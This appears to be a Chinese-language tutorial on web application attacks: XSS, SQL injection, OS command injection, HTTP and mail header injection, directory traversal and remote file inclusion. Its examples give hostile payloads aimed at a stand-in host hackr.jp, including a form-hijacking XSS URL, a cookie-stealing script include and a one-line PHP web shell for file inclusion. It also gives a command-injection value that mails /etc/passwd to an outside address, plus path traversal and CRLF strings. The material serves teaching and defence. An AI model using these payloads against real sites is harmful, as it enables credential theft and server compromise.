实施 Web 应用的安全对策可大致分为以下两部分：

- 客户端的验证、
- Web 应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义


> 图：验证数据的几个地方

多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范对策。
保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI 体验的作用。

Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。
输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。

从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。
当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。


# 跨站脚本攻击（XSS）

跨站脚本攻击（Cross-site scripting，XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。
动态创建的 HTML 部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。

跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息。 
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。 
- 显示伪造的文章或图片。


## 跨站脚本攻击案例

- **在动态生成 HTML 处发生**

  下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

  
  > 图：跨站脚本攻击的案例

  确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口一郎这样的 HTML 标签的字符串。

  
  > 图：按照输入内容原样显示的机制

  此时的确认界面上，浏览器会把用户输入的 `<s>` 解析成 HTML 标签，然后显示删除线。
  删除线显示出来并不会造成太大的不利后果，但如果换成使用 script 标签将会如何呢。

- **XSS 是攻击者利用预先设置的陷阱触发的被动攻击**

  跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。

  下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

  

  充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

  ```js
  http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method==>"get";</script><span+s="
  ```

  浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。
  当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

  
  
  > 对 http://example.jp/login?ID=yama 请求时对应的 HTML 源代码（摘录）

  ```html
  <div class="logo">
    
  </div>
  <form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value="yama" />
  </div>
  ```

  > http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 对请求时对应的HTML源代码（摘录）

  ```html
  <div class="logo">
    
  </div>
  <form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value=""><script>var f=document.getElementById("login");f.action="http://hackr.jp/pwget";f.method="get";</script><span s="" />
  </div>
  ```


## 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。

```html
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```js
var content = escape(document.cookie);
document.write("");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。
然后这些信息会发送至攻击者的 Web 网站 http://hackr.jp/ ，记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。


> 图：使用 XSS 攻击夺取 Cookie 信息


# SQL 注入攻击


## 会执行非法 SQL 的 SQL 注入攻击

SQL 注入（SQL Injection）**是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击**。
该安全隐患有可能引发极大的威胁，有时会直接导致个人信息及机密信息的泄露。

Web 应用通常都会用到数据库，当需要对数据库表内的数据进行检索或添加、删除等操作时，会使用 SQL 语句连接数据库进行特定的操作。
如果在调用 SQL 语句的方式上存在疏漏，就有可能执行被恶意注入非法 SQL 语句。

SQL 注入攻击有可能会造成以下等影响：

- 非法查看或篡改数据库内的数据
- 规避认证
- 执行和数据库服务器业务关联的程序等


## 何为 SQL

SQL（Structured Query Language，**结构化查询语言**）是一种用于管理关系数据库的查询语言。

SQL 是用来操作关系型数据库管理系统（Relational DataBase Management System, RDBMS）的数据库语言，可进行操作数据或定义数据等。

RDBMS 中有名的数据库有 Oracle Database、Microsoft SQL Server、IBM DB2、MySQL 和 PostgreSQL 等。这些数据库系统都可以把 SQL 作为数据库语言使用。

使用数据库的 Web 应用，通过某种方法将 SQL 语句传给 RDBMS，再把 RDBMS 返回的结果灵活地使用在 Web 应用中。

- SQL 语句示例

```sql
SELECT title,text FROM newsTbl WHERE id=123
```


## SQL 查询案例

下面以某个购物网站的搜索功能为例，讲解 SQL 注入攻击。通过该功能，我们可以将某作者的名字作为搜索关键字，查找该作者的所有著作。


> 图：搜索作者

正常处理的操作示例

下图是将“上野宣”作为关键字的搜索结果：


> 图：正常处理操作的示例

URL 的查询字段已指定 q=上野宣，这个值由 Web 应用传入到 SQL 语句中，构成下方的 SQL 语句。

```sql
SELECT * FROM bookTbl WHERE author = "上野宣" and flag = 1;
```
> 该 SQL 语句表示：从 bookTbl 表中，显示满足 author= 上野宣 and flag=1（可售）所在行的数据。

> 数据库内的 bookTbl 表记录着该购物网站的所有书籍信息。通过 SQL 语句，将满足作者名（author）上野宣并且 flag 为 1 双重条件的条目取出，最后作为搜索结果显示出来。


> 图：SQL 语句执行


## SQL 注入攻击的操作示例

把刚才指定查询字段的上野宣改写成“上野宣’--”。


> 图：SQL 注入攻击的操作示例

构成的 SQL 语句就变成“从数据库的 bookTbl 表中，显示满足 author=上野宣 条件所在行的数据”，如下所示：

```sql
SELECT * FROM bookTbl WHERE author ="上野宣"--'and flag=1;
```

SQL 语句中的 `--` 之后全视为注释。即 and flag=1 这个条件被自动忽略了。



结果跟 flag 的设定值无关，只取出满足 author=“上野宣” 条件所在行的数据，这样连那些尚未出版的图书也一并显示出来了。


> 图：SQL 注入攻击的搜索结果


## SQL 注入攻击破坏 SQL 语句结构的案例

SQL 注入是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

比如，在之前的攻击案例中，就会把 author 的字面值（程序中使用的常量）"上野宣’- -"的字符串赋值给 $q。


> 图：SQL 注入攻击破坏 SQL 语句结构的案例

上图中颜色标记的字符串最开始的单引号 `'` 表示会将 author 的字面值括起来，以到达第二个单引号后作为结束。
因此，author 的字面值就成了上野宣，而后面的 `--` 则不再属于 author 字面值，会被解析成其他的句法。

本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。但实际发生 SQL 注入攻击时，
很有可能会导致用户信息或结算内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度的损失。


# OS 命令注入攻击

OS 命令注入攻击（OS Command Injection）**是指通过 Web 应用，执行非法的操作系统命令而产生的攻击**。
只要在能调用 Shell 函数的地方就有存在被攻击的风险。

可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell 时存在疏漏，就可以执行插入的非法 OS 命令。

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。

- OS 注入攻击案例

下面以咨询表单的发送功能为例，讲解 OS 注入攻击。该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去。


> 图：咨询表单的邮件发送功能

下面摘选处理该表单内容的一部分核心代码。

```Perl
my $adr = $q->param('mailaddress');
open(MAIL,"¦ /usr/sbin/sendmail $adr");
print MAIL "From:info@example.com\n";
```

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。

攻击者将下面的值指定作为邮件地址：

```shell
; cat /etc/passwd | mail hack@example.jp
```

程序接收该值，构成以下的命令组合：

```shell
/usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

攻击者的输入值中含有分号 `;`。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。
结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。


# HTTP 首部注入攻击

HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被动攻击模式。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie。

```http
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345

*12345就是插入值
```

HTTP 首部注入可能像这样，通过在某些响应首部字段需要处理输出值的地方，插入换行发动攻击。

HTTP 首部注入攻击有可能会造成以下一些影响：

> - 设置任何 Cookie 信息
> - 重定向至任意 URL
> - 显示任意的主体（HTTP 响应截断攻击）


## HTTP 首部注入攻击案例

下面我们以选定某个类别后即可跳转至各类别对应页面的功能为例，讲解 HTTP 首部注入攻击。
该功能为每个类别都设定了一个类别 ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的 Location 首部字段内，
形如 `Location: http://example.com/?cat=101 `，令浏览器发生重定向跳转。


> 图：HTTP 首部注入攻击案例

攻击者以下面的内容替代之前的类别 ID 后发送请求。

```http
101%0D%0ASet-Cookie:+SID=123456789
```

其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/) 的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。

发送该请求之后，假设结果返回以下响应：

```http
Location: http://example.com/?cat=101（%0D%0A：换行符）
Set-Cookie: SID=123456789
```

此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。
通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

攻击者输入的 %0D%0A，原本应该属于首部字段 Location 的查询值部分，但经过解析后，%0D%0A 变成了换行符，结果插入了新的首部字段。

这样一来，攻击者可在响应中插入任意的首部字段。


## HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。
**利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的**。这样的攻击叫做 HTTP 响应截断攻击。

```xml
%0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--
```

在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返回结果得到以下这种响应。

```http
Set-Cookie:UID=（%0D%0A：换行符）
（%0D%0A：换行符）
<HTML><HEAD><TITLE>之后，想要显示的网页内容<!--（原来页面对应的首部字段和主体部分全视为注释）
```

利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相同的效果。

另外，滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务器对任意内容进行缓存操作。这种攻击称为缓存污染。
使用该缓存服务器的用户，在浏览遭受攻击的网站时，会不断地浏览被替换掉的 Web 网页。


# 邮件首部注入攻击

邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。
利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告邮件或病毒邮件。

**邮件首部注入攻击案例**


> 图：邮件首部注入攻击案例

攻击者将以下数据作为邮件地址发起请求：

```shell
bob@hackr.jp%0D%0ABcc:user@example.com
```

`%0D%0A` **在邮件报文中代表换行符**。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

另外像下面一样，使用两个连续的换行符就有可能篡改邮件文本内容并发送。

```shell
bob@hackr.jp%0D%0A%0D%0ATest Message
```

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。


# 目录遍历攻击

目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。
这种攻击有时也称为路径遍历（Path Traversal）攻击。

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在疏漏的情况下，用户可使用 `.../` 等相对路径定位到 /etc/passed 等绝对路径上，
因此服务器上任意的文件或文件目录皆有可能被访问到。这样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问权限。

**目录遍历攻击案例**

下面以显示读取文件功能为例，讲解目录遍历攻击。该功能通过以下查询字段，指定某个文件名。然后从 /www/log/ 文件目录下读取这个指定的文件。

```http
http://example.com/read.php?log=0401.log
```

攻击者设置如下查询字段后发出请求：

```http
http://example.com/read.php?log=../../etc/passwd
```

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。
如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。


> 图：目录遍历攻击案例


# 远程文件包含漏洞

远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时，
攻击者利用指定外部服务器的 URL 充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击。

这主要是 PHP 存在的安全漏洞，对 PHP 的 include 或 require 来说，这是一种可通过设定，指定外部服务器的 URL 作为文件名的功能。
但是，该功能太危险，PHP 5.2.0 之后默认设定此功能无效。

固然存在输出值转义的问题，但更应控制对任意文件名的指定。

**远程文件包含漏洞的攻击案例**

下面以 include 读入由查询字段指定文件的功能为例，讲解远程文件包含漏洞。
该功能可通过以下查询字段形式指定文件名，并在脚本内的 include 语句处读入这个指定文件。

```http
http://example.com/foo.php?mod=news.php
```

对应脚本的源代码如下所示：
> http://example.com/foo.php 的源代码（部分摘录）

```php
$modname = $_GET['mod'];
include($modname);
```

攻击者指定如同下面形式的 URL 发出请求：

```http
http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
```

攻击者已事先在外部服务器上准备了以下这段脚本：
> http://hackr.jp/cmd.php 的源代码

```php
<?system($_GET['cmd']) ?>
```

假设 Web 服务器（example.com）的 include 可以引入外部服务器的 URL，
那就会读入攻击者在外部服务器上事先准备的 URL（http://hackr.jp/cmd.php)。
结果，通过 system 函数就能在 Web 服务器（example.com）上执行查询字段指定的 OS 命令了。


> 图：远程文件包含漏洞的攻击案例

在以上攻击案例中，执行了可显示 Web 服务器（example.com）上文件及目录信息的 ls 命令。
